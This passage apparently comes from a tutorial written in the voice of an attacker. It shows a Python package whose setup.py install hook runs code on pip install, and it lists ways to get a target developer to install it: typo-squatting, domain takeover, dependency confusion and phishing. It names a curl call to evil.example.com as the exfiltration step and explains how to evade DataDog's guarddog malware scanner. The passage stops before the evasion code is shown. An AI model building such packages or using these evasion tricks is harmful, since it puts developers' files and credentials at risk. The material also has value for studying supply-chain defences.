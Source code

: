 Now we install the package, with extra verbosity just to see our "pwned" print statement:

```
$ pip install -v .
Using pip 22.3.1 from /hack/venv/lib/python3.10/site-packages/pip (python 3.10)
Processing /hack
...
  running bdist_wheel
  running build
  installing to build/bdist.macosx-12.3-x86_64/wheel
  running install
  ************************ pwned ************************
  running install_egg_info
  running egg_info
...
Successfully installed malicious-1.0.0
```

Alright! Now we just need our target developer to install this package. This is the only hard part about our hack, but we have a lot of options:

* [Typo-squatting a popular package](https://snyk.io/blog/malicious-packages-found-to-be-typo-squatting-in-pypi/)
* [Registering someone's expired domain](https://sockpuppets.medium.com/how-i-hacked-ctx-and-phpass-modules-656638c6ec5e) that they used to use for email, then issuing password resets
* [Tricking a popular package](https://www.theregister.com/2023/01/04/pypi_pytorch_dependency_attack/) to include your package as a dependency
* Paying to own a popular package
* Forking an abandoned project and telling everyone to migrate to yours
* Good ol' fashioned phishing
* and more

### Avoiding detection

With our malicious package, it would be easy to exfiltrate files, but some nosy person will probably notice a `subprocess.run(['curl', 'evil.example.com'...])` line on our file. DataDog publishes a tool that will simulate our nosy person, who we can trivially trick.

Our current script does get noticed:

```
$ guarddog scan ./dist/malicious-1.0.0.tar.gz
Found 1 potentially malicious indicators in ./dist/malicious-1.0.0.tar.gz

cmd-overwrite: found 1 source code matches
  * Standard pip command overwritten in setup.py at malicious-1.0.0/setup.py:12
        setuptools.setup(
        name="malicious",
        version="1.0.0",
        install_requires=[],
        cmdclass={'install': Install}
    )
```

But that's an easy fix. If we just assign the `{'install': Install}` dictionary to a variable ([like pytorch does](https://github.com/pytorch/pytorch/blob/eadbf762fc36f23ef78b084973dc39a13605db46/setup.py#L1199)), we avoid detection:
